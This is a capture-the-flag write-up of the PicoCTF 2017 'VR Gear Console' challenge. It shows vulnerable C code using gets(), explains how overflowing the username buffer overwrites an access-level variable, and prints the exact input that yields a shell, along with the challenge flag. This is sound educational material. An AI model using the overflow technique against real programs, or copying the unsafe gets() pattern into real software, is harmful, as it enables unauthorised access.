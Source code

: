 # VR Gear Console
Level 2 Binary Exploitation Challend in PicoCTF2017 competition
```
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/51645e84d55d376442beaf264e0908b9

HINTS
-What happens if you read in more characters than the length of the username buffer?
-You should look at an ascii table to see what character you need to choose.
-Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
-"cat file - | vrgearconsole " will keep the pipe open for commands.
```

First let's look at the source code for the main function folder. 
```C

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    ...
    
    ...
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}

```
It gets an integer from the result of login() and then tries to authenticate the user based on that integer. Let's see if there are any ways we can manipulate what the call to login() will return.

```C
int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}
```

The first thing we noticed is that login returns a variable accessLevel as opposed that is assigned in the if/else if statements as opposed to a constant. Noting the use of gets a vulnerable c function which does not prevent overflow of fields we knew to look for a buffer overflow vulnerability. The username field will overflow upward into the accessLevel variable. This can be checked by entering a string longer than 16 bytes into the username field and then observing any changes made to the accessLevel variable.

```
Username (max 15 characters): AAAABBBBCCCCDDDDEEEE
Password (max 31 characters):
Your access level is: 0x45454545
Login unsuccessful.
```

Providing the console with our input, we can see that the value of accessLevel has been changed to 0x45454545, 4 bytes worth of the ascii values for 'E'. It should be noted that if we overflow the buffer with enough characters we can cause a segfault by overwriting return pointers or other important data that the program needs to operate, but this is not our goal for this challenge. 

Now we simply want the value of accessLevel to be something that will get us admin access, anything less than 0x30. To accomplish this we must enter 16 characters followed by an ascii character with a value < 0x30. The 17th character occupies the least significant byte of accessLevel because the system is little endian; thus it will be used to enter our value in the required range. We used 'tab', but many other characters work like '/' for example. I will use '/' in this writeup because it shows up easier. Then we simply cat the flag.

```
Username (max 15 characters): 1234567890123456/                                          
Password (max 31 characters):                                                            
Your access level is: 0x0000002f                                                         
Admin access granted!                                                                    
The flag is in "flag.txt".                                                               
$ cat flag.txt                                                                           
8b7ea70220f19ab662750a8710a552c4                                                         
$                                                                                        
```






